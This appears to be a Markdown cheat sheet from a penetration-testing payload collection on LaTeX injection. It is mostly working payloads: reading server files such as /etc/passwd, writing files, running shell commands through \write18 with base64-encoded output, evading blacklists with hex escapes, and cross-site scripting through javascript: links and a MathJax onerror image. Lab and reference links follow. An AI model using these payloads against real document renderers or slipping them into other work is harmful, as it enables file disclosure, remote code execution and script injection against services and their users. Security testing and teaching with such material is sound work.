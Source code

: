 # LaTeX Injection

> LaTeX Injection is a type of injection attack where malicious content is injected into LaTeX documents. LaTeX is widely used for document preparation and typesetting, particularly in academia, for producing high-quality scientific and mathematical documents. Due to its powerful scripting capabilities, LaTeX can be exploited by attackers to execute arbitrary commands if proper safeguards are not in place.

## Summary

* [File Manipulation](#file-manipulation)
    * [Read File](#read-file)
    * [Write File](#write-file)
* [Command Execution](#command-execution)
* [Cross Site Scripting](#cross-site-scripting)
* [Labs](#labs)
* [References](#references)

## File Manipulation

### Read File

Attackers can read the content of sensitive files on the server.

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control
characters can be deactivated in order to use `\input` on file containing `$`, `#`,
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value.

* ^^41 represents a capital A
* ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

### Write File

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

## Command Execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

In [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```

## Labs

* [Root Me - LaTeX - Input](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
* [Root Me - LaTeX - Command Execution](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

## References

* [Hacking with LaTeX - Sebastian Neef - March 10, 2016](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho - July 6, 2018](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX - scumjr - November 28, 2016](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
